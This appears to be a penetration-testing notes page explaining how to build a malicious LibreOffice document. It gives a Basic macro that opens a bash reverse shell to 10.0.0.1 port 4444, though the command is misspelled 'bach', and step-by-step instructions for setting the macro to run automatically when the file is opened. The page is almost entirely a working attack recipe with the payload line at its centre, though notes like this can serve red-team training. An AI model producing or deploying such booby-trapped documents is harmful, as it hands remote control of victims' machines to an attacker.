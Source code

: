 ```yaml
---
title: LibreOffice Macros
description: LibreOffice is an open-source office software alternative to Microsoft Word, Excel, etc. There are multiple applications such as Calc, Writer. Supported file extensions are also variety such as .odf, .odp, odt (OpenDocument), .odb (OpenOffice Base) etc.
tags:
    - Malware
refs:
    - https://en.wikipedia.org/wiki/LibreOffice
date: 2023-09-09
draft: false
---
```


## Create Macro to Code Execution

Reference: [https://jamesonhacking.blogspot.com/2022/03/using-malicious-libreoffice-calc-macros.html](https://jamesonhacking.blogspot.com/2022/03/using-malicious-libreoffice-calc-macros.html)

### 1. Create Macro

We can create a macro and embed it into a **LibreOffice** file, like Microsoft Excel.

1. Open one of the LibreOffice applications such as **Calc, Writer**.
2. Save a new empty file at first.
3. Go to **Tools → Macros → Organize Macros → Basic**. The BASIC Macros window opens.
4. In the window, select our new created filename in the left pane, then click **New**. Enter arbitrary module name and click OK. Macro editor (LibreOffice Basic) opens.
5. In the Macro editor, write our code as below. It’s an example for reverse shell.
    
    ```bash
    REM  *****  BASIC  *****
    
    Sub Main
    	Shell("bach -c 'bash -i >& /dev/tcp/10.0.0.1/4444 0>&1'")
    End Sub
    ```
    
6. Now close the editor.

### 2. Embed the Macro to LibreOffice File.

After creating a macro as above, next configure the macro to run immediately after opening this LibreOffice file.

1. Return to the original window on LibreOffice.
2. Go to **Tools → Macros → Organize Macros → Basic** again. The BASIC Macros window opens.
3. Select our new created macro (module) in the left pane. For example,
    
    ```bash
    example.odt
        - Standard
    		- Module1 <- select this
    ```
    
4. Click **Assign**. The Customize window opens.
5. In Customize window, go to **Events** tab. Then select **Open Document** and click **'Macro…'**. The Macro Selector window opens.
6. In the Macro Selector window, select our new created macro (module), then click OK.
7. Now we should see the text such **"Standard.Module1.Main"** at the right of the **Open Document**. Click **OK**.
8. Save this LibreOffice file again.
9. Finally, we’ve created the file which is executed when the file opens.
